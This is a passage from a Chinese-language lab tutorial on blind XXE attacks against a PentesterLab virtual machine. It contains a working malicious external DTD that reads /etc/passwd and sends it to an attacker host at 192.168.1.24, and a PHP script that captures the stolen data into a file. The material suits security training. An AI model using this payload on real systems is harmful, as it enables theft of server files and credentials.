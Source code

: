 >`Connection refused` 栏有数值，证明端口关闭

## 6 无回显的情况下实现数据外带

![无回显的情况下实现数据外带](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E6%97%A0%E5%9B%9E%E6%98%BE%E7%9A%84%E6%83%85%E5%86%B5%E4%B8%8B%E5%AE%9E%E7%8E%B0%E6%95%B0%E6%8D%AE%E5%A4%96%E5%B8%A6.png)

**过程**

1.黑客向目标发送一个 XML 请求 payload，使目标向黑客请求 DTD

2.目标向黑客发送一个 DTD 请求，向黑客请求 DTD

3.黑客向目标发送一个 DTD 到目标

4.目标 XML 解析器解析黑客发来的 DTD

5.解析后将数据发送给黑客

**准备**

配置 `PentesterLab-xxe` 虚拟机

切换至站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /var/www/html/
```

在 Kali 配置一个外部 DTD，用于使目标读取数据，并发送给黑客

```
┌──(root㉿Kali-24)-[~]
└─# vim xxe.dtd
```

```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.1.24/xxe.php?pass=%p1;'>">
%p2;
```

>`% p1` 定义一个参数实体，`%` 和 `p1` 之间有一个空格，用于接收 `file:///etc/passwd` 的内容，`%p1` 引用参数实体，参数实体只能在 `DTD` 文件中被引用。

建立 php 文件用于接收目标发来的数据，并指定存储文件

```
┌──(root㉿Kali-24)-[~]
└─# vim xxe.php
```

```php
<?php
$pass=$_GET['pass'];
file_put_contents('pass.txt',$pass);
?>
```

创建 pass.txt 用于存储数据
